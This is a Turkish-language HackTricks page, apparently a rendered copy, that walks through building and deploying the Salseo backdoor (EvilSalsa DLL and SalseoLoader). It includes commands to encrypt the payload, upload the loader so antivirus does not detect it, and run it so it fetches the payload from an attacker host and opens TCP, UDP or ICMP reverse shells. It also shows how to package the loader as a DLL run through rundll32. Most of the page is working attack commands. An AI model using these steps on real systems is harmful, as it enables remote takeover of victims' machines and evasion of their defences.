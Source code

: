 # Salseo

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahramana öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a> <strong>ile!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu
* **💬** [**Discord grubumuza**](https://discord.gg/hRep4RUj7f) **katılın veya** [**telegram grubuna**](https://t.me/peass) **katılın veya bizi Twitter 🐦** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

## Derlemeleri Derleme

Kaynak kodunu github'dan indirin ve **EvilSalsa** ve **SalseoLoader**'ı derleyin. Kodu derlemek için **Visual Studio**'nun yüklü olması gerekmektedir.

Bu projeleri, kullanacak olduğunuz Windows işletim sisteminin mimarisi için derleyin (Windows x64 destekliyorsa, o mimari için derleyin).

Mimariyi Visual Studio içinde **sol "Build" sekmesindeki** **"Platform Target"** bölümünden **seçebilirsiniz.**

(\*\*Bu seçenekleri bulamazsanız, **"Project Tab"** üzerine tıklayın ve ardından **"\<Project Name> Properties"** seçeneğine tıklayın)

![](<../.gitbook/assets/image (132).png>)

Sonra, her iki projeyi derleyin (Build -> Build Solution) (Log içinde yürütülebilir dosyanın yolunu göreceksiniz):

![](<../.gitbook/assets/image (1) (2) (1) (1) (1).png>)

## Arka Kapıyı Hazırlama

İlk olarak, **EvilSalsa.dll**'yi şifrelemeniz gerekecek. Bunun için, **encrypterassembly.py** adlı python betiğini kullanabilir veya **EncrypterAssembly** projesini derleyebilirsiniz:

### **Python**

```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```

### Windows

### Windows

```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```

Şimdi Salseo işlemini gerçekleştirmek için ihtiyacınız olan her şeye sahipsiniz: **şifrelenmiş EvilDalsa.dll** ve **SalseoLoader'ın ikili dosyası.**

**SalseoLoader.exe ikili dosyasını makineye yükleyin. Herhangi bir AV tarafından tespit edilmemeleri gerekiyor...**

## **Arka kapıyı çalıştırın**

### **TCP ters kabuk almak (şifrelenmiş dll'yi HTTP aracılığıyla indirme)**

Ters kabuk dinleyici olarak nc başlatmayı ve şifrelenmiş evilsalsa'yı sunmak için bir HTTP sunucusu başlatmayı unutmayın.

```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```

### **Bir UDP ters kabuk almak (SMB üzerinden kodlanmış dll indirme)**

Ters kabuk dinleyici olarak nc'yi başlatmayı ve kodlanmış evilsalsa'yı sunmak için bir SMB sunucusu başlatmayı unutmayın (impacket-smbserver).

```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```

### **ICMP ters kabuk almak (kodlanmış dll zaten kurbanın içinde)**

**Bu sefer ters kabuk almak için istemci tarafında özel bir araca ihtiyacınız var. İndirin:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **ICMP Yanıtlarını Devre Dışı Bırakın:**

```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```

#### Müşteriyi çalıştırın:

```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```

#### Kurbanın içinde, salseo şeyini çalıştıralım:

```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```

## Ana işlevi dışa aktaran DLL olarak SalseoLoader'ı derleme

Visual Studio kullanarak SalseoLoader projesini açın.

### Ana işlevden önce ekle: \[DllExport]

![](https://github.com/carlospolop/hacktricks/blob/tr/.gitbook/assets/image%20\(2\)%20\(1\)%20\(1\)%20\(1\)%20\(1\)%20\(1\)%20\(1\)%20\(1\)%20\(1\)%20\(1\)%20\(1\)%20\(1\)%20\(1\)%20\(1\)%20\(1\)%20\(1\)%20\(1\)%20\(1\)%20\(1\).png)

### Bu projeye DllExport yükleyin

#### **Araçlar** --> **NuGet Paket Yöneticisi** --> **Çözüm için NuGet Paketlerini Yönet...**

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

#### **DllExport paketini arayın (Gözat sekmesini kullanarak) ve Yükle'yi seçin (ve açılan pencereyi kabul edin)**

![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Projelerinizin klasöründe **DllExport.bat** ve **DllExport\_Configure.bat** dosyaları görünmelidir.

### DllExport'u kaldırın

**Kaldır**'ı seçin (evet, tuhaf ama bana güvenin, gerekli)

![](<../.gitbook/assets/image (5) (1) (1) (2) (1).png>)

### Visual Studio'yu kapatın ve DllExport\_Configure'ı çalıştırın

Sadece Visual Studio'yu **kapatın**

Ardından, **SalseoLoader klasörüne** gidin ve **DllExport\_Configure.bat**'ı çalıştırın

**x64**'ü seçin (eğer bir x64 kutusunda kullanacaksanız, benim durumumda olduğu gibi), **System.Runtime.InteropServices**'ı (DllExport için **Namespace**) seçin ve **Uygula**'yı seçin

![](<../.gitbook/assets/image (7) (1) (1) (1) (1).png>)

### Projeyi tekrar Visual Studio ile açın

**\[DllExport]** artık hata olarak işaretlenmemelidir

![](<../.gitbook/assets/image (8) (1).png>)

### Çözümü derleyin

**Çıkış Türü = Sınıf Kitaplığı** seçin (Proje --> SalseoLoader Özellikleri --> Uygulama --> Çıkış türü = Sınıf Kitaplığı)

![](<../.gitbook/assets/image (10) (1).png>)

**x64 platformunu** seçin (Proje --> SalseoLoader Özellikleri --> Derleme --> Platform hedefi = x64)

![](<../.gitbook/assets/image (9) (1) (1).png>)

Çözümü derlemek için: Derle --> Çözümü Derle (Çıktı konsolunda yeni DLL'nin yolunu göreceksiniz)

### Oluşturulan Dll'yi test edin

Dll'yi test etmek istediğiniz yere kopyalayın.

Çalıştır:

```
rundll32.exe SalseoLoader.dll,main
```

Eğer hata görünmüyorsa, muhtemelen işlevsel bir DLL'niz var!!

## DLL kullanarak bir kabuk alın

Bir **HTTP** **sunucusu** kullanmayı ve bir **nc** **dinleyici** ayarlamayı unutmayın

### Powershell

```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```

### CMD

### CMD

```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahramana öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

HackTricks'ı desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** \[**ABONELİK PLANLARI**]'na göz atın (https://github.com/sponsors/carlospolop)!
* [**Resmi PEASS & HackTricks ürünlerini alın**](https://peass.creator-spring.com)
* [**PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* **Katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)\*\* takip edin.\*\*
* **Hacking püf noktalarınızı paylaşın, PR'lar göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına.

</details>
